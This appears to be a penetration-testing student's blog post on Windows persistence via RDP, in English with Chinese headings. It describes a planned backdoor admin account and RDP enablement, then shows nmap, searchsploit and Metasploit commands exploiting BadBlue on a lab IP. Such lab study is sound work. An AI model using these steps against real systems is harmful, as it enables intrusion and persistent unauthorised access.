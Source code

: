 ```yaml
---
layout: post
title: "Persistence Via RDP"
date: "2023-07-05"
author: "r3kind1e"
header-img: "img/post-bg-Penetration Testing Student.png"
catalog:    true
tags: 
    - Penetration Testing Student v2
    - Host & Network Penetration Testing
    - Post-Exploitation
---
```


# Windows Persistence（Windows持久化）
## Persistence Via RDP（通过RDP实现持久化）
## Demo: Persistence Via RDP（演示：通过RDP实现持久化）
We're going to be exploring the process of establishing persistent access on a Windows target system by creating a backdoor user account, after which we will also be adding that backdoor user account to the local administrators group so that that user has administrative privileges and in addition to that, we'll be also exploring the process of how to enable RDP or remote desktop protocol on the Windows target system and how to use that RDP access to authenticate with the target system through the backdoor user that we will be creating.

We're going to be gaining access to the target system, after which we'll be exploring how to create the backdoor user account, how to add it to the local administrators group, how to enable RDP, and how to access the target system via RDP. This requires elevated privileges by default or in order to be done.

Target IP Address : 10.2.18.93

```
nmap -sV 10.2.18.93
```

```
searchsploit BadBlue
```

```
msfconsole
search BadBlue
use exploit/windows/http/badblue_passthru
set RHOSTS 10.2.18.93
```

The default payload is the 32-bit meterpreter payload. 

```
show options
exploit
```
